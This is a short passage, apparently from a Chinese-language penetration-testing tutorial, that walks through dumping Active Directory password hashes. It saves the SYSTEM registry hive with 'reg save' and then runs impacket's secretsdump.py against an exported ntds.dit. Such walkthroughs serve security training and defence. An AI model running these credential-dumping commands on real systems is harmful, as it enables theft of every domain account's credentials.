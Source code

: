 [![](assets/1706090550-194a879f93f9fb08f5521f0afde59da4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095953-43f54688-ba5c-1.png)  
导出 ntds.dit 后，可以键 system.hive 转储，因为 system.hive 中存放着 ntds.dit 的秘钥，如果没有该密钥，将无法查看 ntds.dit 中的信息：

```bash
reg save hklm\system c:\system.hive
```

[![](assets/1706090550-bf879de51c7e8b0a0829e9c75caaa718.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100012-4f2ab7e0-ba5c-1.png)  
之后使用 impacket 导出 hash

```bash
./secretsdump.py -system /root/diskshadow/system.hive -ntds /root/diskshadow/ntds.dit LOCAL
```

[![](assets/1706090550-1ed81608cd36f9a5274ced855ae97ceb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100031-5a85ac26-ba5c-1.png)
